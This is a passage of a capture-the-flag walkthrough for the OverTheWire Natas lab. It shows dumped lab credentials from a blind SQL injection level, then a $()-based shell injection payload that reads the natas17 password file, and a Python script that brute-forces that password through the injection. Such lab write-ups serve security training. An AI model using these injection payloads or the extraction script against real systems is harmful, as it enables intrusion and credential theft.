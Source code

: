 ```bash
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| alice    | hROtsfM734                       |
| natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
+----------+----------------------------------+
```
`WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`
References:
- DVWA blind SQLi https://github.com/ethicalhack3r/DVWA
- https://www.youtube.com/watch?v=7PrUX2587A0
- https://www.owasp.org/index.php/Blind_SQL_Injection
- http://sqlmap.org/
- https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Level 16 - Shell injection without ;|&\`\\'"
```
http://natas16.natas.labs.overthewire.org/ natas16 WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

We still have `$()`! The payload `$(grep -e ^a /etc/natas_webpass/natas17)love` will display `beloved,love..` if the password doesn't start with an `a`.

Bad boy:
```bash
$(grep -e ^a /etc/natas_webpass/natas17)love
# will result in "grep -i love dictionnary" so the output is
# beloved, love
```

Good boy:
```bash
$(grep -e ^8 /etc/natas_webpass/natas17)love
# will result in "grep -i 8love dictionnary" so the output is
# -- nothing --
```

Let's bruteforce this 💪💪💪 with python 3 🐍3️⃣

```python
#! /usr/bin/env python3
import requests

pwd = ''
baseUrl = 'http://natas16.natas.labs.overthewire.org/?needle=$(grep -e ^% /etc/natas_webpass/natas17)love'
alphabet = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
for i in range(0, 50):
    print('Current pwd "'+pwd+'" Bruteforcing', end='')
    for l in alphabet:
        print('.', end='', flush=True)
        url = baseUrl.replace('%', pwd+l)
        r = requests.get(url, auth=('natas16', 'WaIHEacj63wnNIBROHeqi3p9t0m5nhmh'))
        if 'love' not in r.text:
            pwd += l
            print('letter found:', l)
            break;
```
